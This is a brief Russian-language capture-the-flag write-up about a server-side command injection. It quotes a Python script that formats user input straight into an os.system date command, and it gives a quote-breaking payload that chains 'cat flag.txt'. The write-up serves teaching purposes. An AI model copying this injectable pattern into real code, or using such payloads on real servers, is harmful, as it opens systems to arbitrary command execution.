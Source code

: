 Задача на выполнение своей unix-команды на стороне сервера.

1. Смотрим на код файла, копия которого работает на стороне сервера:

```python
import os

date_format = input('What date do you want to get: ')
world_date = os.system('date +"{}"'.format(date_format))

print(world_date)
```

2. Замечаем возможность подставить свой параметр в текст команды. Закрываем кавычку, читаем флаг.

```bash
";cat flag.txt;"
```